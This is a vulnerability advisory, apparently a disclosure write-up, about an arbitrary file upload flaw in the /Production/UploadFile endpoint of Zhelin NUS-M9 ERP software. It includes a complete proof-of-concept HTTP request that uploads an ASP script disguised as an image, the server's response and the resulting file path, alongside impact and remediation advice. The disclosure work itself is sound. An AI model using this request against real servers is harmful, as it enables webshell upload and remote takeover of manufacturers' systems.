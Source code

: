 ## Zhelin NUS-M9 ERP Management Software for the Mechanical Industry

Analysis and Remediation Suggestions for Arbitrary File Upload Vulnerability in Zhelin NUS-M9 ERP Management Software Backend /Production/UploadFile

## **Background** 

Zhelin Information Technology Co., Ltd. (abbreviated as Zhelin Software) is a high-tech internet data company focused on the mechanical industry, specializing in the development, consulting, implementation, and services of enterprise management information software platforms. One of its primary products, the Zhelin NUS-M9 ERP management software for the mechanical industry, is widely used in industrial manufacturing. Recently, a critical arbitrary file upload vulnerability was discovered in the backend interface **/Production/UploadFile** of this software.

## **Vulnerability Description**

 This vulnerability allows attackers to upload arbitrary file types through the interface, including malicious ASP script files. Once uploaded, attackers can access the file to execute remote code, thereby gaining a Web Shell (commonly referred to as "Getshell") on the server, which could lead to full control over the affected server. Such vulnerabilities typically result from inadequate file type validation or the absence of effective security checks.

## **Impact of the Vulnerability**

1. **Remote Control**: Attackers can gain control of the server through the uploaded malicious file, enabling remote command execution and system access.
2. **Data Breach**: Attackers may exploit the acquired privileges to access or alter sensitive data on the server, leading to data breaches or corruption.
3. **System Disruption**: Attackers could delete or tamper with system files, causing business disruptions or system crashes.
4. **Persistent Attacks**: Attackers may establish persistent backdoors via the uploaded Web Shell, facilitating further malicious activities.

POC： 

![3](3.png)

POST：

```http
POST /Production/UploadFile HTTP/1.1
Host: 127.0.0.1:8086
Content-Length: 1384
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypbsEuF3C71eFJKTf
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ASP.NET_SessionId=ehdywaltevtixgtll3zsaghf
Connection: close

------WebKitFormBoundarypbsEuF3C71eFJKTf
Content-Disposition: form-data; name="uploadfile"; filename="1.asp"
Content-Type: image/jpeg

<%
result = 7 * 7
Response.Write(result)
%>

------WebKitFormBoundarypbsEuF3C71eFJKTf
Content-Disposition: form-data; name="FileNm"

1.jpg
------WebKitFormBoundarypbsEuF3C71eFJKTf
Content-Disposition: form-data; name="FileSize"

35.0 Bytes
------WebKitFormBoundarypbsEuF3C71eFJKTf
Content-Disposition: form-data; name="FileType"

jpg
------WebKitFormBoundarypbsEuF3C71eFJKTf
Content-Disposition: form-data; name="UpType"

PublicFiles
------WebKitFormBoundarypbsEuF3C71eFJKTf
Content-Disposition: form-data; name="MCode"

00133
------WebKitFormBoundarypbsEuF3C71eFJKTf
Content-Disposition: form-data; name="DtlID"

133
------WebKitFormBoundarypbsEuF3C71eFJKTf
Content-Disposition: form-data; name="UserID"

1
------WebKitFormBoundarypbsEuF3C71eFJKTf
Content-Disposition: form-data; name="UserName"

admin
------WebKitFormBoundarypbsEuF3C71eFJKTf
Content-Disposition: form-data; name="CUserCode"

666
------WebKitFormBoundarypbsEuF3C71eFJKTf
Content-Disposition: form-data; name="CToken"

8F8CC991AE59513AB2A17316AA23EF285F1D7D54FC0E295E8060CFDDA2263111
------WebKitFormBoundarypbsEuF3C71eFJKTf
Content-Disposition: form-data; name="UploadTarget"

0
------WebKitFormBoundarypbsEuF3C71eFJKTf--

```

Response:

```http
HTTP/1.1 200 OK
Cache-Control: private
Content-Type: text/html; charset=utf-8
Vary: Accept-Encoding
Server: Microsoft-IIS/10.0
X-AspNetMvc-Version: 4.0
X-AspNet-Version: 4.0.30319
X-Powered-By: ASP.NET
Date: Wed, 14 Aug 2024 10:57:05 GMT
Connection: close
Content-Length: 111

{"success":true,"FileName":"1","FilePath":"../images/PublicFiles/133/133@bda83036750e4273bef8aa75338095b3.asp"}
```

![](4.png)

```
/images/PublicFiles/133/133@bda83036750e4273bef8aa75338095b3.asp
```

![5](5.png)

## **Remediation Suggestions**

1. **Strict File Type Validation**: Only allow the upload of specific file types, such as images or documents, and ensure consistency between the file extension and MIME type.
2. **File Renaming and Storage Control**: Rename uploaded files and store them in directories that cannot be accessed directly via URL to prevent the files from being executed.
3. **Server Permission Controls**: Ensure strict permission settings on server folders and directories to prevent unauthorized file execution.
4. **Security Audits**: Regularly conduct code audits and penetration testing on the upload functionality to identify and fix similar vulnerabilities promptly.

**Conclusion:** The security of Zhelin NUS-M9 ERP management software is crucial for its users. By fixing this arbitrary file upload vulnerability, enterprises can effectively prevent server compromise and ensure the security of their data and systems.